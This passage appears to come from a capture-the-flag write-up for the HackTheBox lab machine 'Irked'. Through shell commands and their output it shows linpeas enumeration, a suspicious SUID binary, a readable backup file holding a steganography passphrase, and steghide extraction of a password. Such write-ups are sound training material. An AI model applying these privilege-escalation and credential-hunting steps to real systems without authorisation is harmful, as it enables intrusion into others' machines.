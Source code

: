 ```sh
2021-12-18 21:20:00 (1.39 MB/s) - ‘lin.sh’ saved [451118/451118]

ircd@irked:/tmp$ chmod +x lin.sh
chmod +x lin.sh
ircd@irked:/tmp$ ./lin.sh 
```



Linpeas findings:

```sh
-rwsr-xr-x 1 root   root       7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary)
```


I saw the unknown SUID binary and tried to run it but wasn't able to figure out anything further with it. I created a /tmp/listuser file and added a username but still didn't do anything.

```sh
ircd@irked:/tmp$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 20:47 (:0)
/tmp/listusers: 1: /tmp/listusers: djmardov: not found
```


I went back to /home/djmardov and under Documents I found the user.txt and a .backup file that I have read permissions to.

```sh
ircd@irked:/home/djmardov/Documents$ ls -al
ls -al
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
```


Contents of .backup.

```sh
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

I looked through the /home/djmardov folder, but didn't find any pictures. I remembered I saw an image on http://10.10.10.117. I downloaded the image and used steghide to extract a 'pass.txt' file.

```sh
kali@kali-[~/boxes/htb/irked]$steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".
kali@kali-[~/boxes/htb/irked]$cat pass.txt
Kab6h+m+bbp2J:HG
```
